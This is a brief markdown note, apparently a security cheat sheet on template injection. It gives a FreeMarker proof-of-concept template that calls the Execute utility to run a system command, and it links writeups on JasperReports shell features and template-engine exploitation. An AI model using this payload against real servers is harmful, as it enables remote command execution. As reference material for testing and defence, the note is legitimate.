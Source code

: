 # Type
## FreeMarker
Templete - upload - insert data - render
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```
## Reports
- [Hacking JasperReports](https://foxglovesecurity.com/2016/10/14/hacking-jasperreports-the-hidden-shell-feature/)

## CVE Analysis

## Reference
- [Exploiting 用户自定义模版引擎](https://www.secpulse.com/archives/73381.html)
